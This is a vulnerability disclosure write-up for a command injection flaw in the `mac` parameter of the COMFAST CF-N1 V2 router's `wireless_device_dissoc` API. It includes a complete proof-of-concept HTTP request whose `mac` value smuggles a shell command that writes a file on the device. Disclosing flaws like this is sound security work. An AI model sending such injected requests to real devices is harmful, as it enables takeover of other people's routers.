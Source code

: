 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `wireless_device_dissoc`
Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.
## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wireless_device_dissoc` API (`/usr/bin/webmgnt`, function `sub_415F54`). Attackers can inject arbitrary commands via the `mac` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_415F54` function handling the `wireless_device_dissoc` configuration. Disassembly analysis shows that the user-controlled `mac` parameter is unsanitized and directly incorporated into system commands via string formatting functions before execution by `system_0`.

Key code flow:



1.  User input (including `mac` and `ifname`) is parsed via `blobmsg_parse_0` and extracted as configuration parameters.

2.  The `mac` parameter is inserted into a command string (likely related to wireless device disassociation) using unvalidated string concatenation.

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct use of unfiltered input in command construction enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc  HTTP/1.1
Host: cflogin.cn
Content-Length: 89
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"ifname":"127.0.0.1",  "mac":"; echo wireless_device_dissoc  > /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `mac`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "wireless\_device\_dissoc", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
